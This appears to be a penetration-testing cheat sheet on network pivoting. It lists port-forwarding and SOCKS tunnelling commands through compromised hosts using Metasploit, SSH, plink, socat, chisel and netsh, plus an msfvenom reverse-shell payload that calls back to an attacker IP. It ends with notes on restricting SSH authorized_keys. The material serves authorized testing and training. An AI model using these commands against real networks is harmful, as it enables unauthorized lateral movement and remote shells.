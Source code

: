 # Pivoting

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here. &#x20;
{% endhint %}

## PORT FORWARDING ("port to port")

### Using Metasploit

Target: Most platforms

If you get a meterpreter session on a dual homed machine, or one with multiple network interfaces.

```bash
portfwd add -l 4445 -p 4443 -r 10.1.1.1
# Use -R to make it reverse
```

### Using SSH

Target: Linux

**If you already have an SSH session**

Single host port forward

```bash
ssh -R 8081:172.24.0.2:80 # (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
# <KALI 10.1.1.1>:8081<------------<REMOTE 172.16.0.2>:80
# Now you can access 172.16.0.2:80, which you didn't have direct access to
```

Dual host port forward

```bash
ssh -L 8083:127.0.0.1:8084 # (on your machine listen on 8083, send it to my Kali machine on 8084)
# <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
# run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it on kali

#For reverse shell:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.123 LPORT=8083 -f exe -o shell
# Run it on 2nd remote target to get a shell on Kali
```

**If you don't already have an SSH session**

First, SSH to your Kali from target machine

On Kali:

```bash
service ssh start 
# "add a user, give it /bin/false in /etc/passwd"
ssh - -R 12345:192.168.1.212:5986 test@10.10.10.123
```

### Using PLINK

Target: Windows&#x20;

service ssh start , and transfer `/usr/share/windows-binaries/plink.exe` to the target machine

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -L 0.0.0.0:4445:10.10.10.123:4443 -l $KALIUSER -pw $PASS
```

### Using SOCAT

Target: Linux

Forward your 8083 to 10.39.0.2:443

```bash
./socat TCP4-LISTEN:8083,fork TCP4:10.39.0.2:443
```

### Using CHISEL

Target: Most platforms

Remote static tunnels "port to port":

```bash
#On Kali "reverse proxy listener":
./chisel server -p 8000 -reverse

#General command:
./chisel client $YOUR_IP:$YOUR_CHISEL_SERVER_PORT L/R:[$YOUR_LOCAL_IP]:$TUNNEL_LISTENING_PORT:$TUNNEL_TARGET:$TUNNEL_PORT
```

**Remote tunnels "access IP:PORT you couldn't access before":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```

**Local tunnels "listen on the target for something, and send it to us":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

## Using netsh

Target: Windows

```bash
#Add a port forward
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
#Remove it
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

## DYNAMIC Port Forwarding ("one port to any")

* setup proxychains with socks5 on 127.0.0.1:1080
  * Or set up socks5 proxy on firefox
* For nmap use -Pn -sT or use tcp scanner in msf

### Using Metasploit

Target: Most platforms

* If you get a meterpreter session on a dual homed machine, or one with multiple network interfaces.
* Auto route to IP (multi/manage/autoroute)
* Start socks proxy (auxiliary/server/socks4a)

### Using SSH

Target: Linux

```
ssh -i bobs.key -p 2222 bob@10.10.10.123 -D1080
```

### Using PLINK

Target: Windows

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -D 1080 -l $KALIUSER -pw $PASS
```

### Using CHISEL

Target: Most platforms

```bash
#On Kali:
./chisel server -p 8000 -reverse

#On Target:
./chisel client 10.10.10.123:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5

#On Kali:
./chisel client 127.0.0.1:8001 socks
```

## Public key Authentication

With OpenSSH, the authorized keys are by default configured in `.ssh/authorized_keys` in the user's home directory. Many OpenSSH versions also look for `ssh/authorized_keys2`.

You are able to [add options to the authorized key file](https://www.ssh.com/academy/ssh/authorized-keys-openssh#format-of-the-authorized-keys-file)

Example `authorized_keys` file to allow only port forwarding with no shell access

```bash
command="echo 'This account is only for port forwarding!'",from="10.10.0.1,10.10.0.2",no-user-rc,no-agent-forwarding,no-X11-forwarding,no-pty ssh-$keyType $publicKey
```

`command="cmd"` - Forces a command to be executed when this key is used for authentication. This is also called command restriction or forced command. The effect is to limit the privileges given to the key, and specifying this options is often important for implementing the principle of least privilege. Without this option, the key grants unlimited access as that user, including obtaining shell access.

It is a common error when configuring SFTP file transfers to accidentally omit this option and permit shell access.

`from="pattern-list"` - Specifies a source restriction or from-stanza, restricting the set of IP addresses or host names from which the reverse-mapped DNS names from which the key can be used.

The patterns may use * as wildcard, and may specify IP addresses using * or in CIDR address/masklen notation. Only hosts whose IP address or DNS name matches one of the patterns are allowed to use the key.

More than one pattern may be specified by separating them by commas. An exclamation mark ! can be used in front of a pattern to negate it.

`no-pty` - Prevents allocation of a pseudo-tty for connections using the key.

`no-user-rc` - Disables execution of .ssh/rc when using the key.

`no-x11-forwarding` - Prevents X11 forwarding.

## References

* <https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding>
* <https://iximiuz.com/en/posts/ssh-tunnels/>
* <https://ironhackers.es/en/cheatsheet/port-forwarding-cheatsheet/>
